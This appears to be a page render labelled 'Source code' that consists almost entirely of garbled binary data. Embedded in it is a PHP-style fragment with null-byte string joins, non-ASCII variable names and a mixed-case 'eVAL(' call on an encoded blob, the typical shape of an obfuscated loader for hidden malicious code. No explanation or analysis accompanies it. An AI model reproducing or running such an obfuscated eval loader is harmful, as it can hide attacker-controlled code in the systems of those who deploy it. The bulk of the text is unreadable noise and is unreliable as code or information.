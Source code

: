 �k���/�~^��d�g��˻��&\\X���' . "\0" . '}�@���U��6|ri�:;d���`�[�+??���\\:��܅_R��k�f6W�_��Y��	(���\'!ȫ�cquO/?�z�c�P�sҴU]����?|*�"���\'W�{=��Q�2 �i�kv�\\Y]@��Q��|�$}˼v��+��GU32�>�Ӽ^�S��Ϟ��쭄���\'?��v���y���u��__?ݰ@������)�J��E�A�yA�����@��ņ�eo;�մ��6���F��U�+�¦�F���g7� ���)ͣ|�My�@g��޺Օ��[?��' . "\0" . '��|D��/�ڷ�8����KW�?�Pq�:y����u��^d��+c��uX�*�8��4�ݾֵh��es������R~�܋/���3�=y�9s���H������X�HϧnU���[��>��We�L��f��Z����;��;M��0�ZQ�qj�V;o��Șw��-~|�m�Ĭ��G����>�������7���Mܸ�y���G���g�n;�ã%���:���UwO�zv����3�cQg��!s��~Ʃ+ǎ?��>��Q�l�n�F}ŻF�ml��_�/Y����x�%{�;{�?*��o�?6�X��l�);�^_�?�����������ӷJ���r+J��-;�/�~����͈?{��m�^_Ûl#Ly�n�pQ��U?������������:���z�ϧr_<ש?,���t���~��R�-�dM}k�v�X�&x����K�D��5�}���D��M�Rz�{���
�3�dh��;m��X�n��ѓ��\\��_I[[y�Qּ?����sǯ�����x8�z��:�X���+���w��H�\'v�lf�M;��klL���5LWO}y�M��O\\�c%������O<5#�:��v�)��a"�p uw�P�J��^0cm�ar�Õ�.=��8ϡ�n1>e.���¹�B���eM���&sw��<t5��¥�w>��5�j�E*������1�r��o�
ƙ��
�cO��9勞�.�����ɓ���)�:3>�����L�\'������TWE��g���b"Ui�0��q�TU��٪��#`Ř}�Kr����o卩���1�run8�#ܜI�c+7��|yc7,,r�/*/wc!ϳ,�)K����?�::*��}��R,�-��V�xO~��Wl�}�,՜{�kz��o｟�E��Kݯ��������e��
O���#��f�6-�O=v�g�m�?g�LM������Kw�-8�|��o>8�Tr�h����u�妛��^i�M�!y�V��>���κ��L�W�[���:��e_�	���=�4�����v.}ܞ��x5)X�m٣�q30�?���b�s2>�����
�lﮯ�r͙3��Ι��S���[7����t
����=��Nu(��k;6�˘{S�q��M-�|�����-��?�߸���T���s�������^�e+�xVb�����wN<rhVl���Eʥ㐢 a��&��J��s볊03z`2 ������~����Y��R��*5�o���_U�x��Asa�\\�@�vIQh�՗9���X"+��{�ë��o�~~�x�Js�{f����/Ɲŋǒ� �?��|\\�U���
y�ҟ��}����K!���Y\'�����s����(���l�ϭ�9L���=��R��@^XW��T(�x��wA� ���O_T-���aR#7\'�DF\'��
�r�,O\\j�e�}}���Ri�g{V�\\���6����=�Ε��z�k�' . "\0" . '.��J��W?�����y��KVۛ�}��y��>U�������b�H����,��}�fkE��Go.L-�[9��_���4�������v썎q��g��b^�iI�Ʊ�7�(�(����?�~��ȵv�ޯ�!�)�/������o��V|�f�/�Sd��.l_��zk���N�]ʑ�9���6��S^�>�l��;n\\2Ī��=	Vlb��M{6���������E�=);&�W֙���6̇�`���M!��D����d���Qᠭ@�˽���4g��^�����_�v}�7w� +q�s�^�Q����H�=5��p.��{d���̓R�x������wǑ�On�=��t��.	=�].<���������Q������O[������
*��]؍�{�jY@�oH���Һʿ�]TD�~���W�i�o�ɔhC��c�5�S./��5
J�&}2j�$�Tn ���:� &
�`Y!�\'dZRZ[g\'���P�A�>�%`��></I0�.���/�Q�`A���e��k�J+�\'�VQ���Y6���5��io�Vz{"͵"Gk;�U����ڨXvU+^,��fQU4�W:۹�v0�ؔh���<[/����wRD�u����Pd!/�Jk!�d=6�5PW*���8脢�DQ�B$�r�L���4���S
��
�"5|�An�#5�FHm30�>�c����RK��Vk��!S?\\u�Ts��ϛ���/�V�W_d��y�
�.ϙ�w۬�+�f��/�Y�/{�,z2\'' . "\0" . '' . "\0" . ''));$�ۤ������������¨ö�����ݭ�Ϛ�������ϱ�������հ�����������ڠ�ѯ��������顢������ǧǷ���ש������է�=$�����������ܠ��Ϩ����٣�������̹��˟�������ᶧ��ׯ�ѽ䟞��������ٿ�ǻ��ŷ��䷿��۶�������𯫦�����ף����(eVAL($�����������߱ؾ������ڻ辽��ع¨�����ѻ����ϼ�ܬ����˟������à�ٲ��Ҧ��ԧ���������ù������«�ڪ�����������('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '�Vg<
����m����(��(*Ԫ�R^An+�5J��TԸ���ѠbT��=c�F$�"f�H�%��{?��z?�����<���ѹ�����#)S;��.o���;?Vv��b��ۏ�W
�N�*v	}�I&���*ee��@���ӦH���\'��J\'�oaRNw��{����룫t<�z]��X�\\��j>֖���)\'yKR
�,����_|6��x���K�ɰ��_o�젃�s��' . "\0" . '��\'
*�-�Tʯ/�ڬJ�0/t5�A�uhnëQL��:�a?_6?��<X��`�_>��c)�\'�OX4e"ߑjZ���|��**}��o�k#kXˇ�w_�\\�$[l��9o�W�=�������F���s?p�)st��#�\'��Îb:����r��]mV{��ncˎ�
z}"\\�	�B�L=sy�m�q�7��//LiԦ
g�Ǭ�L�h��C�E>!���{��MbmGX\'�rf$�n���2;�L��T�WQ�>�4�%��D�ք���B��z�E���\\�R�N�#`6{"n\\ˊ�Ir��d���\\e3^��y����If�RO��@+*/�b��:�4y����[y�8��BSA���Ӷ���I����[���dc�y�x����Y:�����|�%�dZ9��xС��Y��ty�>���a[#��[œ�����;d���	\\��V}�"=Bc��b!)[f#�{6��Ze��$�L=�A02NT2�,�˾/3/vqkEk��?�' . "\0" . '������>���ZmڻmT$e6�C�:��' . "\0" . '�#q=�g�1�+˕�ƴ�T�!��޺Xxq���.�
�-����|��4�����}i�W�;��q���]
z@7F�􂯟I`p�B��J�6+7ɧ���ݣ��N���F򒿈w�>\'��Bef���K}
���\\��?����s.�,��F�m�Z�' . "\0" . '��z=�Y��7љ&��>�:�8\' ��D���3>�0󱄡 %$�\\���pC���!����E�~z�@�
&5l�(O�� �q�Pz���)�͙�Qx?�<�[�l/��3%�W�d���n�	I�J�Ȕ�Q1����V���dt�Zl5r�/Yt�T��t��=P$�Q_����Ε��i���ʂ����F���k�' . "\0" . '��M�baI5�bw~�R��' . "\0" . '}х�Z�k����r�k\\^��5Rc�)�⭰' . "\0" . '�y�&�u��]��[GQ��<�n��g�X��9��s4mD��+\'��੎\'I�u��6�6��Lv�.*�J�Z�3�[�>�q��4��j��o�^�,X�`s(��k�Li��t�Ǭ2-�Fm���Q���.�����y���؜���Ξ9I�@���¤ͨ~^^J�-��O}y@.�"�ܴҞ�(V�f��Wd�]ѐ�Zm.�t��,у Hd�����=v�9��-@}ց���b�){������*	>�=5��̩+]�"����Z@aៈ�~5���Jy����L���8�&�@�ݬF
��U����MUe�)��x��([���ݷ6��z"���Q1��Aw��2��?"Ŵ��Ct`���Uąbx9�=k8�
ģ:v��@�����f��$��u��;j�wKD�pϭ>����K���ҍ9�B��8�=߼i�H��&.۷����_��͹D���l��b��G��;���ή�' . "\0" . '�%$8�Dw<�����ؑ��X\\�i�򧥵.Ӷ5/��&���ZK���	d���,KRE!=?l�&&�;��a��!���Q2���O����1�\\�H�Ի�(|��,�g%�>�2�eF����&QP�C�N+ˑ?o�&�_��9��|]��]{�
G�T��갣�|�`R�d��)����οM�a��U�>�E�[��
�Ȑ$��7|�욏_O[��s�����2��ڐ8�?�UC\\��C\\�e1[�:m^ׁ���݀٦���&�U�Ge�͑%Zbv��`�?��w�(碁a�+�w}�>Pj��YV��`��V�n����bm�